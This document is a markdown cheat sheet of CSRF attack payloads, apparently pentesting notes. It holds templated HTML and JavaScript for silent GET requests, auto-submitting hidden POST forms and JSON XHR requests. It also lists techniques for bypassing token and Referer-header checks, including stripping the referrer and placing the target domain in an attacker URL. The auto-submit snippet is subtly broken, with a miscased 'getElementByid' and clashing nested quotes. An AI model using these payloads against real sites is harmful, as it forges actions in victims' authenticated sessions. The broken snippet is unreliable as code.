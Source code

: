 # CSRF (Cross Site Request Forgery)

## Payloads

### GET Request

```
<img src="<url>" width="0" height="0" border="0">    //no interaction required
<a href="<url>">Click me!</a>
```

### POST Request in form

```
<form id="f1" action="<url>" method="POST">
<input type="hidden" name="<arg1>" value="<value1>"/>
<input type="hidden" name="<arg2>" value="<value2>"/>
<input type="submit" value="click me"/>
</form>
<body onload="document.getElementByid("f1").submit()">
```

### Request with JSON

Requires CORS control to be configured to accept requests from all sources. `Access-Control-Allow-Origin: *`

```
<script>
function req() {
var x = new XMLHttpRequest();
x.open("<PUT|HEAD|POST>","<url>",true);
x.setRequestHeader("Content-Type", "application/json");
x.send(JSON.stringify(<JSON Object>));
}
</script>
<body onload="req()">
```

## Security Bypass

### Incorrect CSRF token validation

The following conditions may lead to a partial or complete vulnerability to CSRF attacks beacuse the security token is not managed correctly.

* The token is validated only for POST requests
* If the token is missing, the request is not invalidated
* The token is not tied to the user's session but is part of a pool of possible values thus allowing a malicious actor to harvest and reuse tokens
* The token is stored in a non-session cookie. This allows an attacker to obtain a valid session cookie by navigating to the application, intercept a valid CSRF token and forge a valid request. The request is valid because there is no check to make sure that the CSRF token actually belongs to the given session
* Double Submit: the CSRF token is sent both as a cookie and as a parameter of the request. if an attacker has the possibility to create cookies He can create an arbitrary token and then set it as an argument of the forged request and, because the requirement for a valid request is simply to have matching cookie and argument values, create a valid request

### Referer header

In order to use the following exploits it is required to include the following header in the response from the attacker's server: `Referrer-Policy: unsafe-url.` In this way the content of the Referer header will not be stripped

Referer is validated only if present. by adding the following code to the pyload it is possible to force the removal of the header

```
<meta name="referrer" content="never">
```

If the referer evaluates only the domain name it is possible to bypass the control by inserting the CSRF payload as a subdomain or as an argument of the URL

```
http://<url>/csrf-attack
```

If the referer simply searches for the domain name in any position in the URL then it can be bypassed by putting the vulnerable site's domain elsewhere

```
http://<attacker url>/crsf-attack?<vulnerable url>
```
